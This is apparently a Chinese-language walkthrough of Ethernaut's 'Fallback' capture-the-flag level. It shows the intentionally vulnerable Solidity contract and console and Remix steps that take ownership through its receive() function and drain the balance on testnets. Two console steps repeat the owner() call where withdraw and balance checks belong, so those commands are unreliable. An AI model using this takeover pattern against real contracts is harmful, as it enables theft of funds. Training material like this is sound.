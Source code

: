 # level1 Fallback

## 1. 问题

将以下合约的 `owner` 修改为自己的地址，并将合约的余额清空。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

## 2. 解法

注意到 Fallback 合约有一个 `receive()` 函数可以修改 `owner`，只要在该函数被调用前，`msg.sender` 地址的 `contributions[msg.sender]` 大于 0 即可。因此，我们通过以下流程解决：


一. 先用EOA账户调用`contribute()`注资，使得EOA的contributions大于0

二. 使用EOA调用合约的`receive()`函数，获取owner权限

三. 再成为owner后，用EOA调用`withdraw()`接口取回合约里的所有eth


### 2.1 解法1：ethernaut命令行
1. 使用EOA账户调用`contribute()`注资0.0009 eth
```bash
# 使用ethernaut的命令行执行
await contract.contribute.sendTransaction({from: player, value: toWei('0.0009')});
```

> [!NOTE]
> 执行后会唤起metamask对交易进行签名，发起[Holesky交易](https://holesky.etherscan.io/tx/0x254f1b4b40bf2640e8f3365e9abe21dfc49b4d18f6bdca88c700a5f63e64d532)


2. 使用EOA账户调用`receive()`随便注资一点，以获取owner权限
```bash
await contract.sendTransaction({from: player, value: toWei('0.000001')});
```

> [!NOTE]
> 执行后会唤起metamask对交易进行签名，发起[Holesky交易](https://holesky.etherscan.io/tx/0xf1a8172b4025f6f614e42cc58e29d5faa9a94142f5b0846bc1b04394f338bd2a)
  
3. 查询当前 `owner`，确认已经变成我们自己：

```bash
await contract.owner()
```

4. 调用 `withdraw()` 接口取回合约里的所有 ETH：
```bash
await contract.owner()
```

5. 查询合约的余额，确认余额为 0：
```bash
await contract.owner()
```
> [!TIP]
> 也可以打开区块链浏览器直接看合约的余额

6. 点击 `submit instance`， 提交通过！


### 2.2 解法2：使用remix和合约交互
1. 因为我们不需要部署fallback合约，所以我们将fallback的逻辑切换成interface，然后在remix上编译:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// 将原始合约定义成 interface，方便自己写的合约调用
interface Fallback {
    // 原始合约中的public变量, 作为interface引入时，有一个对应方法可以调用
    // mapping(address => uint256) public contributions;
    function contributions(address user) external view returns(uint256);
    
    // 原始合约中的public变量, 作为interface引入时，有一个对应方法可以调用
    // address public owner;
    function owner() external view returns (address);

    // 因为interface没有内部逻辑，所以不存在内部调用，原始合约中public必须改成external
    function contribute() external payable;

    // 因为interface没有内部逻辑，所以不存在内部调用，原始合约中public必须改成external
    function getContribution() external view returns (uint256);

    // 因为interface没有内部逻辑，所以不存在内部调用，原始合约中public必须改成external
    function withdraw() external;
}
```

2. 编译完成后，在部署页选择 `At Address`，填入 Ethernaut 后台提供的合约地址。完成后，`Deployed Contracts` 中会多出一个实例，其中包含我们定义的接口。

![](../../resources/img/level1/image.png)

3. 在`VALUE`中填入 `900Gwei`,然后点击 `contribute`函数，唤起metamask[提交交易](https://sepolia.etherscan.io/tx/0x7adfa062698091a12866560e46c95a3ff0d5323882e6f4521d995e3684c8272e)

4. 如果想要给合约转入eth触发合约的`fallback()`执行，正常来说应该通过代码`address(XXX).call{value: 0.0009 ether}("");`，但是interface里面没有这个接口，所以我们使用`low level interactions`, 输入1wei，点击transact, 唤起metamask[提交交易](https://sepolia.etherscan.io/tx/0xbe66ef804998d02c760774628b4cc1d5ac27ba1e160a779dba6b1a400e215e9a)

![](../../resources/img/level1/transact.png)
   a. 此处无需填写任何参数，相当于调用 selector 为 `0x00000000` 的函数。由于 Fallback 合约中函数的 selector 基本不可能为 `0x00000000`，因此会默认调用合约的 `receive()` 函数，从而触发 `owner` 的切换。

   
5. 点击`owner()`函数，发现确实已经切换了

![](../../resources/img/level1/owner.png)

6. 点击`withdraw`[提交交易](https://sepolia.etherscan.io/tx/0xb6a86b89e5334eaa067202a63016ab9063bceb83d524490b8c4ceba231dd4878)取走所有的余额

7. 点击 `submit instance`， 提交通过！

| [⬅️ level0 Hello Ethernaut](../level0_HW/README.md) | [level3 Fallout ➡️](../level2_fallout/README.md) |
| :---------------------------------------------- | -------------------------------------: |